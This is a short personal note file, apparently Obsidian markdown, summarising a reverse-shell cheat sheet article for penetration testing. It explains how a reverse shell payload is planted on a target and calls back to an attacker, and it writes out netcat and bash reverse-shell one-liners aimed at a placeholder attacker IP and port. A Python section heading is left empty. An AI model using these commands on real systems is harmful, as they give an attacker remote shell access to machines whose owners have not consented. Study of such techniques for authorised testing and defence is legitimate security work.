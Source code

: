```yaml
---
created: 2024-06-28T03:40
updated: 2024-12-12T23:57
---
```


# Reverse Shell Cheat Sheet: Creating and Using Reverse Shells for Penetration Testing and Security Research

![[Pasted image 20241103123625.png]]


resource: [Reverse Shell Cheat Sheet: Creating and Using Reverse Shells for Penetration Testing and Security Research | by Cuncis | Medium](https://medium.com/@cuncis/reverse-shell-cheat-sheet-creating-and-using-reverse-shells-for-penetration-testing-and-security-d25a6923362e)

### How Does a Reverse Shell Work?

A reverse shell works by establishing a connection between the target machine and the attacker’s machine. This connection is typically initiated by the target machine, which sends a request to the attacker’s machine to establish a connection. Once the connection is established, the attacker’s machine acts as a listener, waiting for commands to be sent by the attacker.

To create a reverse shell, the attacker first needs to create a shell payload that is designed to connect back to the attacker’s machine. This can be done using a variety of tools and programming languages, such as Netcat, Python, or Metasploit. Once the payload is created, it is typically uploaded to the target machine using a vulnerability or social engineering tactics.

Once the payload is executed on the target machine, it establishes a connection back to the attacker’s machine. This connection can be encrypted to prevent detection and can use a variety of protocols, such as TCP, UDP, or HTTP. Once the connection is established, the attacker can use the shell session to execute commands on the target machine, access files and data, and even escalate privileges if necessary.

! ATTENTION!  **Antivirus flags the reverse shell commands! so don't type anything or the file will be deleted completely** 

## NETCAT


```
nc -e /bin/sh <attacker IP> <attacker port>
```


## BASH

```
bash -i >& /dev/tcp/<attacker IP>/<attacker port> 0>&1
```


## PYTHON
